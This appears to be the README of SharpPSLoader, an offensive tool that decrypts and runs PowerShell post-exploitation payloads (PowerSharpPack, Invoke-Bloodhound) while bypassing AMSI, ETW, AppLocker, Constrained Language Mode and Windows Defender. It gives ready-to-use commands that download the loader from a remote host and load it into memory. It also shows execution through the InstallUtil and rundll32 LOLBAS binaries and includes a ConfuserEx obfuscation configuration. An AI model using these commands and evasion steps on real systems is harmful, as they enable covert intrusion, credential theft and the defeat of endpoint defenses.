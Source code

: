 # SharpPSLoader

SharpPSLoader is a loader for [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) and other powershell scripts, designed to bypass AMSI, Constrained Language Mode (CLM), Applocker, and Windows Defender using the [PowerPick](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) technique and LOLBAS binaries. 


SharpPSLoader works like this: 
1. Decrypt single-byte encrypted powershell payload (currently PowerSharpPack & Invoke-Bloodhound) from its resources section
2. Bypass AMSI and ETW
3. Create custom Powershell runspace and load #1 in-memory 
4. Invoke #1 powershell payload with user argument 

For detailed usage, refer to the `Usage` section below.

## Credits 
All credits goes to [@S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t), [@Jean_Maes_1994](https://twitter.com/Jean_Maes_1994), [@xpn](https://twitter.com/_xpn_), [@3xpl01tc0d3r](https://3xpl01tc0d3r.blogspot.com/), [@mariuszbit/mgeeky](https://twitter.com/mariuszbit), OSEP, and other researchers in the field. I just copy/pasted their code & added couple lines of code and that's all.

## Demo 
SharpPSLoader can be executed on-disk, in-memory, through InstallUtils.exe, and through rundll32.exe. 

![demo](/images/Sharppsloader-demo.gif)

## Usage 

SharpPSLoaderConsole and SharpPSLoaderLibrary can be executed with the following syntax: 
```
./SharpPSLoaderConsole <payload#> <powershell_function & arguments>
ex) ./SharpPSLoaderConsole 1 powersharppack -rubeus -command "triage"
```

Current list of payloads:
```
1 = PowerSharpPack 
2 = Invoke-Bloodhound 
```

### SharpPSLoaderConsole - on-disk console 
```
(new-object net.webclient).downloadfile("http://192.168.40.130:8888/SharpPSLoaderConsole.exe","c:\users\low\SharpPSLoaderConsole.exe")
.\SharpPSLoaderConsole.exe 1 powersharppack -seatbelt -command "-group=user"
```
### SharpPSLoaderConsole - in-memory 
```
$b = (New-Object net.webclient).DownloadData("http://192.168.40.130:8888/SharpPSLoaderConsole.exe")
[System.Reflection.Assembly]::Load($b)
[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("1","Powersharppack -sharpup audit"))

[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("2","Invoke-Bloodhound -c All"))
```

### SharpPSLoaderConsole - LOLBAS - InstallUtils.exe, on-disk
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="<payload#> <powershell_function & argument>" /U .\SharpPSLoaderConsole.exe

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="1 PowerSharpPack -seatbelt -Command '-group=user'" /U .\SharpPSLoaderConsole.exe
```

### SharpPSLoaderLibrary - LOLBAS - rundll32.exe, on-disk 
```
(64bit) c:\windows\system32\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user 

(32bit)) C:\Windows\SysWOW64\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user
```

## Usage - Powershell Payloads 
For detailed usage of PowerSharpPack and Invoke-Bloodhound, refer to the `References` section down below.

## Obfuscation - Warning 
If you want to obfuscate the assembly with confuserEx and execute it in-memory, use the  `SharpPSLoader-confuser.crproj` configuration file as a template. The configuration file's rules were specifically built to not scramble assembly types and not include compressor so the assembly can be executed in-memory. If you know what you are doing, you do you.  

```
<project outputDir="<output-directory>" baseDir="<base-directory>" xmlns="http://confuser.codeplex.com">
  <module path="SharpPSLoaderConsole.exe">
    <rule pattern="true" preset="normal" inherit="false">
      <protection id="resources" />
      <protection id="rename" action="remove" />
      <protection id="typescramble" action="remove" />
      <protection id="constants" />
      <protection id="ctrl flow" />
    </rule>
  </module>
</project>
```

## References & Credits 
- [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
- [Bloodhound](https://github.com/BloodHoundAD/BloodHound)
- https://www.netspi.com/blog/technical/adversary-simulation/evolution-of-offensive-powershell-invocation/
- https://github.com/mgeeky/Stracciatella
- https://blog.xpnsec.com/rundll32-your-dotnet/
- https://3xpl01tc0d3r.blogspot.com/2019/11/managed-dll-exports-and-run-via-rundll32.html